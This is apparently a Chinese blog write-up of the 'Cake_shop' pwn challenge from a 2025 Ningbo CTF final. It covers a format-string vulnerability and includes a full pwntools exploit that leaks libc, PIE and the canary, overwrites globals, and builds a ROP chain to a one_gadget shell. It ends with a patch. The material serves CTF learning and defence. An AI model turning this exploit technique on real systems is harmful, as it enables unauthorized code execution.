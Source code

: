 ```yaml
---
title: "Write-ups: 2025 宁波市第八届网络安全大赛决赛"
published: 2025-09-17
updated: 2025-09-17
description: "2025 宁波市第八届网络安全大赛决赛 AWDP Pwn 方向单题"
tags: ["Pwn", "Write-ups"]
category: "Write-ups"
draft: false
---
```


# Cake_shop

## Information

- Category: AWDP Pwn
- Points: Unknown

## Description

Unknown

## Write-up

Kong 师傅分享的题，本来只是抱着试一试的心态，看看能不能做出来的，结果没想到还真做出来了……决赛题，不过感觉挺简单，如果我在现场的话就拿分了哈哈哈，可惜了，国内赛事接触太少了。Anyway，还是值得记录一下的。

粗略分析一下，发现 `do_nothing` 里面存在格式化字符串漏洞。由于主菜单无限循环，所以我们可以无限触发格式化字符串漏洞，感觉这样一来题目难度瞬间就低了好几个档次。

```c del={10-11}
int do_nothing()
{
  char buf[40]; // [rsp+0h] [rbp-30h] BYREF
  unsigned __int64 v2; // [rsp+28h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts(s);
  puts("\x1B[33mMaybe it should be thought about in your head\x1B[0m");
  puts("\x1B[33mWhat if it happens\x1B[0m");
  read(0, buf, 0x28u);
  return printf(buf);
}
```

`chat` 和 `earn_money` 功能没啥用，直接看 `buy`：

```c ins={36-37}
__int64 buy()
{
  int choice; // [rsp+8h] [rbp-38h] BYREF
  int money; // [rsp+Ch] [rbp-34h]
  _BYTE buf[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v4; // [rsp+38h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  puts(s);
  puts("\x1B[33mWe have three kinds of cakes here\x1B[0m");
  puts("\x1B[33m1.Strawberry cake $10\x1B[0m");
  puts("\x1B[33m2.Orange cake $50\x1B[0m");
  puts("\x1B[33m3.Watermelon cake $100\x1B[0m");
  __isoc99_scanf("%d", &choice);
  if ( choice == 1 )
  {
    money -= 10;
    money = money;
    if ( money < 0 )
      puts("\x1B[33mYou don't have enough money\x1B[0m");
  }
  if ( choice == 2 )
  {
    money -= 50;
    money = money;
    if ( money < 0 )
      puts("\x1B[33mYou don't have enough money\x1B[0m");
  }
  if ( choice == 3 )
  {
    money -= 100;
    money = money;
    if ( money < 0 )
      puts("\x1B[33mYou don't have enough money\x1B[0m");
  }
  if ( choice != 666 || money != 99999999 )
    return 0;
  puts("\x1B[33mBuy the whole cake shop\x1B[0m");
  read(0, buf, (unsigned int)size);
  return 0;
}
```

标绿的部分正常情况下是执行不到的，注意到后面还有个 read 函数，感觉有猫腻。因为有格式化字符串漏洞，我们可以先把程序的几个关键基址算出来，然后再思考如何绕过检测，执行到最后那个 read 函数。

这里 `choice` 我们可以直接传入 666，所以问题就是 `money` 怎么赋值了。注意到 money 在 data 段，`rw-p` 权限，可篡改。

算了下，格式化字符串得写四字节，值是 `0x5f5e0ff`。由于只有几千万字节大小，写起来不会花多久，所以我一开始做的时候是选择一次性写完的，但听 Kong 师傅说他一次性写完有问题，于是我就改成一次写两字节了。

最后那个 read 将输入读到四十字节的 buffer 中，但是默认 size 只有 32 字节。不过由于 size 也保存在 data 段，所以我们同理可以利用 do_nothing 的格式化字符串改写 size，溢出返回地址。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    ELF,
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)


FILE = "./pwn_patched"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary
libc = ELF("./libc.so.6")


def buy(choice):
    target.sendlineafter(b"Please make your choice>>", str(1).encode())
    target.sendlineafter(b"$100", str(choice).encode())


def do_nothing(msg):
    target.sendlineafter(b"Please make your choice>>", str(4).encode())
    target.sendlineafter(b"What if it happens", msg)


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    payload = b"%17$p %8$p"
    do_nothing(payload)
    target.recvline()
    response = target.recvline().strip().split()
    libc.address = int(response[0], 16) - 0x24083
    pie = int(response[1], 16) - 0x1570

    payload = b"%11$p"
    do_nothing(payload)
    target.recvline()
    canary = int(target.recvline().strip(), 16)
    money_p1 = pie + 0x4010
    money_p2 = money_p1 + 2
    money_value_p1 = 0x5F5E0FF & 0xFFFF
    money_value_p2 = (0x5F5E0FF >> 16) & 0xFFFF
    read_size = pie + 0x4014
    one_gadget = libc.address + 0xE3AFE

    target.success(f"libc: {hex(libc.address)}")
    target.success(f"pie: {hex(pie)}")
    target.success(f"canary: {hex(canary)}")
    target.success(f"money: {hex(money_p1)}")
    target.success(f"read_size: {hex(read_size)}")
    target.success(f"one_gadget: {hex(one_gadget)}")

    payload = flat(
        f"aaaa%{money_value_p1 - 0x4}c%8$hn".encode(),
        money_p1,
    )
    do_nothing(payload)

    payload = flat(
        f"aaaaa%{money_value_p2 - 0x5}c%8$hn".encode(),
        money_p2,
    )
    do_nothing(payload)

    payload = flat(
        b"aaaaaa%1337c%8$n",
        read_size,
    )
    do_nothing(payload)
    buy(666)

    # 0x00000000000015cc: pop r12; pop r13; pop r14; pop r15; ret;
    payload = flat(
        b"A" * 0x28,
        canary,
        b"A" * 0x8,
        pie + 0x00000000000015CC,
        0,
        0,
        0,
        0,
        one_gadget,
    )
    target.sendline(payload)

    target.interactive()


if __name__ == "__main__":
    main()
```

## Patch

直接把 `printf` patch 成 `puts` 就好了，ez

```c ins={11}
int do_nothing()
{
  char buf[40]; // [rsp+0h] [rbp-30h] BYREF
  unsigned __int64 v2; // [rsp+28h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts(s);
  puts("\x1B[33mMaybe it should be thought about in your head\x1B[0m");
  puts("\x1B[33mWhat if it happens\x1B[0m");
  read(0, buf, 0x28u);
  return puts(buf);
}
```

